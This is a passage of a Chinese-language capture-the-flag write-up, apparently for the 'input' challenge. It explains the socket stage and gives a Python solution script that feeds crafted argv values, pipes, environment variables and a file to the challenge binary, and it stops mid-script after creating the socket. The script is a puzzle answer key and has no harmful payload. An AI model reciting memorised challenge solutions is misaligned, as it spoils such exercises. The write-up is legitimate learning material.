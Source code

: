 第五关有点长，就是bind了一个socket，socket的端口是argv\[\'C\'\]的值，然后需要接收\\xde\\xad\\xbe\\xef

Python直接client链接然后发包就可以了，记得传argv\[C\]指定端口

```Python
time.sleep(2)

#step5

s = socket.socket()

s.connect(("127.0.0.1",9988))//这里直接搞端口搞成了9988

s.send("\xde\xad\xbe\xef")
```

因为程序启动执行流程有时间，就等它2s

最后exploit：

```Python
import os

import socket

import time

import subprocess

#step1

args = list("A"*99)

args[ord("A")-1] = ""

args[ord("B")-1] = "\x20\x0a\x0d"

args[ord('C')-1] = "9988" #step5 's port

#step2

stdinr, stdinw = os.pipe()

stderrr, stderrw = os.pipe()

os.write(stdinw, "\x00\x0a\x00\xff")

os.write(stderrw, "\x00\x0a\x02\xff")

#step3

env = {"\xde\xad\xbe\xef":"\xca\xfe\xba\xbe"}

#step4

with open("\x0a","wb") as f:
	f.write("\x00"*4)

pro = subprocess.Popen(["./input"]+args,stdin = stdinr,stderr = stderrr,env=env)

time.sleep(2)

#step5

s = socket.socket()

```